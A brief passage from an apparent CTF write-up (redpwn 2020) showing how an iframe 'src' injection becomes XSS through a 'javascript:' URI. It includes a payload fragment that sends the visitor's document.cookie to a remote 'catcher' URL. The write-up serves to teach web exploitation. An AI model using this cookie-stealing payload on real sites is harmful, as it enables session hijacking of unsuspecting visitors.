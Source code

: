 ![](./images/2020-redpwn/10.png)

This can be weaponized into full-on XSS by specifying JavaScript in the `src` instead of a legitimate website. Here, we can use `javascript:` to manipulate the `iframe` into executing JavaScript, and `window.location.href="website.xyz/catcher?data="+document.cookie` to exfiltrate the visitor's cookie to a remote server in the same fashion as the last level.

![](./images/2020-redpwn/11.png)

